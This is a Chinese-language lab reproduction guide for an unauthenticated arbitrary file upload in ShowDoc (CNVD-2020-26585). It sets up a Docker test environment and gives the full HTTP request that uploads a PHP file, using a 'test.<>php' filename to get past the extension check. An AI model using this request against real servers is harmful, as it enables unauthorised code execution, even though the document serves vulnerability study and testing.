


# ShowDoc 前台任意文件上传（CNVD-2020-26585）

Showdoc 是一个开源的在线共享文档工具。

Showdoc <= 2.8.6 存在uploadImg 文件上传漏洞，该漏洞源于未正确使用upload方法至文件后缀限制失效，攻击者可在未授权的情况下上传任意文件，进而获取服务器权限等。

参考链接：

- <https://github.com/star7th/showdoc/pull/1059>
- <https://github.com/star7th/showdoc/commit/fb77dd4db88dc23f5e570fc95919ee882aca520a>
- <https://github.com/star7th/showdoc/commit/e1cd02a3f98bb227c0599e7fa6b803ab1097597f>

## 漏洞环境

执行如下命令启动一个ShowDoc 2.8.2服务器：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8080`即可查看到ShowDoc的主页。

## 漏洞复现

发送如下请求上传一个PHP文件：

```
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0RdOKBR8AmAxfRyl
Content-Length: 213

------WebKitFormBoundary0RdOKBR8AmAxfRyl
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?=phpinfo();?>
------WebKitFormBoundary0RdOKBR8AmAxfRyl--

```

PHP文件路径将返回在数据包中：



访问即可查看到`phpinfo()`执行结果：


